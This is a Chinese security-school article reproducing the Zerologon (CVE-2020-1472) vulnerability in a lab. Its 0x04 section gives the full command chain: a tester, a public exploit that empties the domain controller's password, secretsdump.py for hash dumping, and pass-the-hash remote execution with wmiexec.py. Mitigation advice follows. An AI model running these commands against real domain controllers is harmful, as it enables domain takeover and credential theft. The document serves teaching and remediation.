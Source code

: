 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TaG135KzNIW07PdHsjCjxA)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6pRiabDicuyO5uBZsDB68SyC0XxgOZhLhlViaOZ1YCIFFeMJjrXWeooBlQ1e4FbKVVYYVGyuZZkicfBA/640?wx_fmt=gif)

本文由 “网络安全检测与防护技术国家地方联合工程研究中心深圳分中心——东塔网络安全学院” 总结归纳

**0x00 简介**

NetLogon 远程协议是一种在 Windows 域控上使用的 RPC 接口, 被用于各种与用户和机器认证相关的任务。最常用于让用户使用 NTLM 协议登录服务器，也用于 NTP 响应认证以及更新计算机域密码

**0x01 漏洞概述**

攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在特权提升漏洞。当成功利用此漏洞时，攻击者可无需通过身份验证，在网络中的设备上运行经特殊设计的应用程序，获取域控制器的管理员权限。

**0x02 影响范围**

```
Windows Server, version 2004 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
```

**0x03 环境搭建**

环境：Windows2008R2

1. 下载 windows2008R2，在 VMware 中安装虚拟机，安装完成后在 windowsR2 中安装 AD 域控。

2. 首先把域控 IP 设置为静态 IP，DNS 地址设置为和静态 IP 一样的。然后把 ipv6 的前面的√去掉

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlZ3JxZSicWPibtiaXZyRTjPp7XvzAnXk15Xib4KibSl5AJBx6kq2LEOIMB7w/640?wx_fmt=png)

3. 安装域，点击 “服务管理器”，点击 “添加角色”，选择 AD 域服务一直点击下一步安装

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1Jlgfr9v9xxfk2cRA0AOYxyO0Ngia0QNibbxibzLXwArpibMNLdkJCgOPwnaQ/640?wx_fmt=png)

4. 安装完成后在完成界面点击域服务安装向导，点击下一步

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlVJzcPsgklc3YnAWwM3gVq0IGyUz3Sxwiakia2REGBhC0bZmj2duG8eibQ/640?wx_fmt=png)

4.1 选择 “在新林中新建域”，点击下一步，设置一个域名

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1Jll5W5zsF0oKaOBKqFwZibYhZxztxH7E1XOGnx9Z8epKpTjgJ8ibJSXcOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlcKcCj3WrSqvBmteVy6MUkwzLYDmpvPqmv5h0fTCXIVkJtBnKrdSRWw/640?wx_fmt=png)

4.2 在林功能级别选择 windows2008R2, 点击下一步安装 dns，这里选择 “是” 即可

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlzDUxpZNvsPeGVicicvwdDBPeScfYCgSia2Rv04Yia85zuGBFfQKau9efwA/640?wx_fmt=png)

4.3 一直下一步设置密码，下一步安装完成重启计算机即可

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlNMTApKluelfrZ3cylFqSAs0bGDic20iaMQ0JPtQrd9vtqf26IibZY5MyA/640?wx_fmt=png)

**0x04 漏洞复现**

1. 使用 poc 验证目标机器是否存在漏洞，poc 需要在 python3 中安装 impacket 依赖包

```
Poc下载地址：https://github.com/SecuraBV/CVE-2020-1472
pip install -r requirements.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlibUAjtOqibQPVv6bqGhb7SkK32fM1UI8xK9zStphGtiaMpIxoKACnXn7g/640?wx_fmt=png)

```
python3 zerologon_tester.py 计算机名 域控IP
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlVTfa2HibPNdwiccliclH65SbUhmFZibZ6UnlrfeBKGKYu53eT7RVdpDUlw/640?wx_fmt=png)

2. 漏洞利用，下载漏洞利用的 exp 进行漏洞利用

```
https://github.com/blackarrowsec/redteam-research
python3 CVE-2020-1472.py DC-name NetBIOS-name Target-ip
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlxawGJEuOPPZKC6FiaJsO5nq22xhwHpgt6mam7uIUNZ5YgaO4289WQLA/640?wx_fmt=png)

3. 执行以上 exp 后密码重置为空，安装 python3 的 impacket 扩展，使用 secretsdump.py，dump 出密码

```
pip3 install impacket
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlxAJHANRRWgxXFYQrlIxBTb8mnovnRU8jUxlp7L026OHe40mns66rNg/640?wx_fmt=png)

```
python3 secretsdump.py test1.com/WIN-TSFNUKNLOPJ$@172.16.1.110 如果是kali需要在$@前添加\
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1Jl1hMhZ4j0jdtYtNtc6zIuwWvUK5N9FgEP4dxD9rPib0AyL0UIDWFDTdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1Jl3wzh2sgibAY4vDahQcuV4h0JAL0Nx722BFZVgRGUKyR3IXln8oHsiaVg/640?wx_fmt=png)

4. 在使用 Impacket 库中 wmiexec.py 脚本使用 administrator 的 hash 横向连接过去

```
wmiexec.py -hashes administrator的hash值 test1.com/administrator@172.16.1.110
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlOye2gZYmE3ibwoe6MtEPrhxicXzUffqZnoeIo1L35KbbIpRGzG3EcoGw/640?wx_fmt=png)

**0x05 漏洞修复**

1. 开启 DC 强制模式

开启的 DC 的强制模式，具体可参考下面的链接进行操作

```
https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
```

2. 应及时进行 Microsoft Windows 版本更新并且保持 Windows 自动更新开启。

3. 在微软官方下载相关的漏洞修补补丁

免责申明：   

本项目仅进行信息搜集，漏洞探测工作，无漏洞利用、攻击性行为，发文初衷为仅为方便安全人员对授权项目完成测试工作和学习交流使用。

请使用者遵守当地相关法律，勿用于非授权测试，勿用于非授权测试，勿用于非授权测试（重要的事情说三遍），如作他用所承受的法律责任一概与东塔网络安全学院无关！

东塔网络安全学院在各大平台均上线了各项活动和学习内容，快快登录以下各大平台学习起来吧~  

微博、腾讯课堂、知乎、今日头条、抖音：

东塔网络安全学院

哔哩哔哩：东塔网络安全

了解更多活动和咨询欢迎微信添加：dongtakefu

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JldsMkrPOwpWaVUsiax02GceYtkAoDOm0SIGN5o9TMLQdNH3ntUBQRe6Q/640?wx_fmt=jpeg)

- 免费获取学习资料

电子书籍、试听课程 -

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4Gpou71jatnzPXHbJrdbP1JlLhnicAzSpibT9TOXpOGc9Gibe2dpicOyEibzY7aON9pAXzuO2YzlXMoqVDQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChaE0GfBticZTQQq7TyhaiaeptZbqmENrZO6pazDwFpVB6aTFicgLwngsOuNLMY3sIMxddybn82O4Q8w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChaE0GfBticZTQQq7Tyhaiaepl2oEubhGdZoAicHvXAYeSiarPXAy9OXNtJiaCkvviccX0w0Z0t0ibBnnD2Q/640?wx_fmt=png)

点击蓝字

分享我们